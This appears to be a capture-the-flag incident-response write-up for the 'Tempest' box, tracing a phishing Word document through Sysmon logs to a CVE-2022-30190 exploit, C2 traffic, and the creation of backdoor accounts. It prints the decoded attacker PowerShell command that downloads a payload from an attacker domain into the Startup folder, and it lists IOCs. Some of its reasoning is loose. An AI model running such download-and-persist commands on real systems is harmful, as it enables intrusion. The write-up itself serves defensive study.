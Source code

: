 # Tempest Box

Box Aim: log analysis, network packet analysis

**Scenario:** 

In this incident, you will act as an Incident Responder from an alert triaged by one of your Security Operations Center analysts. The analyst has confirmed that the alert has a CRITICAL severity that needs further investigation.

As reported by the SOC analyst, the intrusion started from a malicious document. In addition, the analyst compiled the essential information generated by the alert as listed below:

- The malicious document has a .doc extension.
- The user downloaded the malicious document via chrome.exe.
- The malicious document then executed a chain of commands to attain code execution.
- Investigation Guide

**﻿To aid with the investigation, you may refer to the cheatsheet crafted by the team applicable to this scenario:**

- Start with the events generated by Sysmon.
- EvtxEcmd, Timeline Explorer, and SysmonView can interpret Sysmon logs.
- Follow the child processes of WinWord.exe.
- Use filters such as ParentProcessID or ProcessID to correlate the relationship of each process.
- We can focus on Sysmon events such as Process Creation (Event ID 1) and DNS Queries (Event ID 22) to correlate the activity generated by the malicious document.


Write Up
---

Reasoning: The 2 information we know is that the user downloaded a malicious document from chrome. Thus, the whole event starts with chrome. Lets look at all the chrome related events by typing
chrome in Sysmon View and Timeline Explorer.

As standard practice, we should always check the hash of the artifacts.
![hashcheck](images/Tempest_01.png)

Since every thing started with chrome, lets check what we can find with chrome regardless of the questions. Below shows an image where we can start to understand the incident and construct the timeline and IOCs.

![first interaction](images/Tempest_02.png)
![first interaction](images/Tempest_02.1.png)

The incident started at 2022-06-20 16:58:55, where the user benimaru using the machine TEMPEST visited the domain phishteam.xyz with the IP:167.71.199.191. At 2022-06-20 17:12:58, a malicious word document free_magicules.doc was downloaded to the location: C:\Users\benimaru\Downloads.

Next, lets search for any related events related to free_magicules.doc.

![free_magicules.doc](images/Tempest_03.png)

and we found that the document was opened at 17:13:12 with a PID: 496. Now lets have a look at the same stuff in sysmon view.
We want to check what did the doc do on/after execution, therefore we will search for all events with a PPID: 496 (process spawn by the doc).

![interesting command](images/Tempest_05.png)

There are 2 types of events happening after the doc was executed: change in registry and new process creation. Lets check the commands for process creation.

![download location](images/Tempest_06.png)

Looking at the payloads and the registry value, the registry event might not be related to the .doc file. If we look at the executed command, we find that the doc has executed a very long command at 17:13:35, and then used NGenTask to stop event: 416 and 412 at 17:22:09.

with some googling, we can see that the `msdt.exe` at the start of the command is associated with the CVE-2022-30190 exploit.
If we decode this base64 command: `$app=Environment]::GetFolderPath('ApplicationData');cd "$app\Microsoft\Windows\Start Menu\Programs\Startup"; iwr http://phishteam.xyz/02dcf07/update.zip -outfile update.zip; Expand-Archive .\update.zip -DestinationPath .; rm update.zip;`, we know that a new file was downloaded. Lets check all the events related to update.zip.

![update](images/Tempest_07.png)
![logon](images/Tempest_07_1.png)

Looking at the log, only 1 log was associated with update.zip and not much useful info we can find, however, we know that the file was created at 17:13:37, with a PID of 2628 and was downloaded to 'C:\Users\benimaru\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup'.

As before lets search for anything related to the PID 2628 and we will see if there are any children process related to it(meaning with a PPID:2628)

![2628](images/Tempest_08.png)
![2628](images/Tempest_08_1.png)

The log shows that 2628 sprawned a whole bunch of files/IOCs. Lets see anything with a PPID:2628

![2628](images/Tempest_08_2.png)

So it's basically just downloaded a bunch of files with cmdline file extensions, cmdline isn't a standard file extension, but we can suspect there will be a bunch of cmd execution following the file update.zip.

if we search each of these cmdline file, we will find that that all point to the 2 exe 'csc.exe' and 'cvtres.exe'. With a little googling, these 2 are associated with privilege escalation. we can assume the attack is trying to move literally.

Going back to update.zip. The files was in the startup folder, in many case, we can assume he is trying to install or do something and then restart, which will give him priv access. Thus, lets search for account log in info. On successful logon, event 4624 will be logged to windows event logs. lets look at what a logon event around/after 17:13:37. As well as having a sysmon event ID 1 process creation.

![logon](images/Tempest_09.png)

So there is an priv account logon at 17:13:39, we can quite sure say that the attacker has gained root access, but lets see what happened after 17:13:39 in sysmon.

![post root comp](images/Tempest_10.png)
![post root comp](images/Tempest_11.png)

So after 17:13:39, we see there are a lot of network connections from the benimaru account, we can assume  those are C2 servers and go through them 1 by 1. Since there are too many logs, we will look at id:1 so we can see all process creation. If we go through all the commands after 17:13:39, 
it is hard to tell which commands are legitimate and which are suspicious. However, looking at the parent process can help. 

![post root comp](images/Tempest_12.png)
![post root comp](images/Tempest_13.png)
![post root comp](images/Tempest_14.png)

A bunch of very interesting commands started after 17:15:10, a powershell was spawned with the hidden flag, and then certutil was used to get a first.exe at the Downloads dir. It was then executed, and a whoami.exe was executed in the system32 dir so on. Lets check out these 2 exe in sysmon view.

![post root comp](images/Tempest_15.png)
![post root comp](images/Tempest_16.png)
![post root comp](images/Tempest_17.png)
![post root comp](images/Tempest_18.png)

So we see first.exe is reaching out to another C2 server with an IP:167.71.222.162 and domain:resolvecyber.xyz, and if we look at the whoami.exe, we can confirm that it ran a powershell command to check privilege at 17:19:16, also, there are another payload called final.exe was downloaded to the Programs dir at 17:21:38. Lets go back to timeline explorer to see the associated events.

![post root comp](images/Tempest_19.png)

So we see the final.exe file is from the spf.exe, and if we look at the timeline without filtering any events. we can be fairly certain that the attacker gained root access after 17:21:34 using the final.exe. Now, lets see all the commands executed after they gained root access.

![post root comp](images/Tempest_20.png)
![post root comp](images/Tempest_21.png)
![post root comp](images/Tempest_22.png)
![post root comp](images/Tempest_23.png)
![post root comp](images/Tempest_24.png)

So looking at the logs, the attacker is using net.exe to execute commands. The attacker tries to create 2 accounts shion and shuna at first but forgot to add the /add flag in net on their first try and after creation of the accounts, they added the shion to administrator group.

**IOC List**
- Domain Name: phishteam.xyz (IP: 167.71.199.191), resolvecyber.xyz (IP: 167.71.222.162)
- free_magicules.doc
- update.zip, first.exe, final.exe, spf.exe, net.exe
- Accounts: shion, shuna




